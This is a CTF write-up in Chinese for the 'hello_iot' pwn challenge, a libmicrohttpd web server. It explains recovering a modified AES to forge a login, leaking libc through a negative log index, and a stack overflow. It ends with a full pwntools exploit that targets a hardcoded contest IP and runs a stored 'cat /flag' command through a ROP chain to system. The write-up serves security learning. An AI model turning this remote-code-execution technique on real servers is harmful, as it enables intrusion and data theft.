


# hello_iot

> 这个IoT站点的鉴权似乎比较严格

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |2.31-0ubuntu9.18|

## 解题思路

看似IoT，实则并非。一个基于 *libmicrohttpd* 的amd64程序，进入`main`函数可以看到使用
*libmicrohttpd* 提供的函数注册HTTP请求处理回调函数，里面是主要逻辑。

如果用户没有登录，则只能访问`login.html`以及`login`接口，
通过验证后可以访问`log`和`work`接口。其中`work`接口能通过POST记录一些数据，
如果数据中存在`YCB2025`，则输入大量数据还可以触发栈溢出。
使用`log`接口则能使用`index`访问记录进去的数据，如果是负数，则能向低地址访问到GOT表，
从而泄露libc。

最难的反而是怎样登录。在`/login.html`中可以找到临时生成的`KEY`，接着在`login`接口中会做验证。
我们需要使用POST上传十六进制编码的`ciphertext`，经过处理后要和`KEY`相等。
看起来是某种加密算法，虽然经过编译后某些特征不太明显，但是还是能看出这个算法
**解密需要10轮，每块16字节，有rcon数组以及两个S盒**。



那么这个算法应该就是aes了。注意到虽然rcon数组和标准aes一致，但是S盒和逆S盒都和标准的不同。
不管怎么说，先让AI生成一个aes加密的算法，然后把里面的S盒换掉，放到gdb里解密试试，
实测没问题，那就可以继续了。



接下来思路就很清晰了，先使用`/login.html`获取`KEY`，然后将`KEY`加密后用来登录`/login`，
再使用`/work`预存一条shell指令，接着使用`/log`接口泄露libc和预存指令的地址，
最后使用`/work`打栈溢出，调用`system`执行预存的指令。

由于起的方式是microhttpd，因此不能直接调用`system("/bin/sh")`，因为标准输入输出都没有连接到socket上。
使用重定向好像也不行，从头构造一个MHD请求也很麻烦。最后选择将文件写入到当前目录下（如`work.html`），
随后再发一条请求获取文件内容即可。

## EXPLOIT

```python
from pwn import *
from aes import aes_encrypt_block
import re
import sys
import requests

context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
IP = '45.40.247.139'
PORT = 25642
URL_BASE = f'http://{IP}:{PORT}'
LIBC = './libc-2.31.so'

# Get decrypted key
response = requests.get(f'{URL_BASE}/login.html')
match = re.search(r'<strong>([a-z]+)</strong>', response.text)
assert match
rand_key = match.group(1)
info(f'Retrieve random key: {rand_key}')

# Encrypt the key
cipher = aes_encrypt_block(rand_key.encode(), b'0123456789ABCDEF').hex()
info(f'Try this cipher: {cipher}')

# Login the system
response = requests.post(f'{URL_BASE}/login', data=f'ciphertext={cipher}')
assert response.status_code == 200

# Now test if the key is right and leak libc
response = requests.post(f'{URL_BASE}/log', data='index=-173')
if response.status_code == 401:
    warn('Unable to log in!')
    sys.exit(1)
assert response.status_code == 200
match = re.search(r'<pre>(0x[a-f0-9]+)</pre>', response.text)
assert match

libc = ELF(LIBC)
libc_base = int(match.group(1), 16) - libc.symbols['malloc']
success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
libc.address = libc_base

if len(sys.argv) > 1 and sys.argv[1] == 'next':
    # next stage: print flag in work.html
    response = requests.get(f'{URL_BASE}/work.html')
    assert 'DASCTF' in response.text
    success(f'Flag is: {response.text}')
    sys.exit(0)

# Before attack, draft a RCE command first
cmd = 'cat /flag > work.html;'
response = requests.post(f'{URL_BASE}/work', data=f'data={cmd}\r\n')
match = re.search(r'Total=(\d+)', response.text)
assert match
slot = int(match.group(1)) - 1
info(f'Hijack httpd to run {cmd} at slot {slot}')

# Then fetch its address
response = requests.post(f'{URL_BASE}/log', data=f'index={slot}')
match = re.search(r'0x[a-f0-9]+', response.text)
assert match
rce = int(match.group(0), 16)
success(GOLD_TEXT(f'Found RCE command on {rce:#x}'))

# Construct a payload to perform ROP
gadgets = ROP(libc)
chain = flat(gadgets.rdi.address, rce,
             gadgets.ret.address, # balance stack
             libc.symbols['system'],
             gadgets.rdi.address, 0,
             libc.symbols['exit'])

# Finally trigger the ROP
t = remote(IP, PORT)
payload = b'data=' + pack(0, 0x48 * 8) + chain + b'YCB2025\n\n'
body = f'''POST /work HTTP/1.0\r
Host: {IP}:{PORT}\r
Content-Length: {len(payload)}\r
\r
'''.encode()
t.send(body + payload)
t.close()
```


